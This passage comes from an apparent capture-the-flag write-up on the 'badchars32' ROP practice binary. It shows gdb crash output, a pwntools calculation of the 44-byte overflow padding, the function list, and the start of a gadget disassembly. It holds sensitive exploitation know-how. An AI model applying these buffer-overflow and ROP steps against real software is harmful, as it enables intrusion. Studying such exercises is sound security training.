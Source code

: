 ```
Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
(gdb) 
```
So it received a segmentation fault on the address `0x6161616c`, which is part of our pattern. `0x6161616c` is the hexadecimal encoded version of `aaal`.
So now I use `pwntools` to get the padding.
```python
>>> fit({0x6161616c:'B'})
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaaB'
>>> len(_)-1
44
>>> 
```
What `fit()` does is put (in this case) the letter B after the padding, so now I know what the length is by calling the `len` function. `_` in python means (from what I understand) the last output received. So, I know that the padding is 44 bytes.
Let's continue on gathering other information.
I checked what kind of gadgets were given to me this time. I thought that because the previous challenges had a function called `usefulGadgets`, it may be there this time too. I started gdb and checked what the defined functions were:
```
$ gdb ./badchars32 -q
Reading symbols from ./badchars32...(no debugging symbols found)...done.
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x08048440  _init
0x08048480  printf@plt
0x08048490  free@plt
0x080484a0  memcpy@plt
0x080484b0  fgets@plt
0x080484c0  malloc@plt
0x080484d0  puts@plt
0x080484e0  system@plt
0x080484f0  exit@plt
0x08048500  __libc_start_main@plt
0x08048510  setvbuf@plt
0x08048520  memset@plt
0x08048540  _start
0x08048570  __x86.get_pc_thunk.bx
0x08048580  deregister_tm_clones
0x080485b0  register_tm_clones
0x080485f0  __do_global_dtors_aux
0x08048610  frame_dummy
0x0804863b  main
0x080486b6  pwnme
0x080487a9  usefulFunction
0x080487c2  nstrlen
0x08048801  checkBadchars
0x08048890  usefulGadgets
0x080488a0  __libc_csu_init
0x08048900  __libc_csu_fini
0x08048904  _fini
gdb-peda$
```
Looks like my assumption was correct! Let's see what the gadgets are.
```
gdb-peda$ disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048890 <+0>:     xor    BYTE PTR [ebx],cl
   0x08048892 <+2>:     ret
   0x08048893 <+3>:     mov    DWORD PTR [edi],esi
```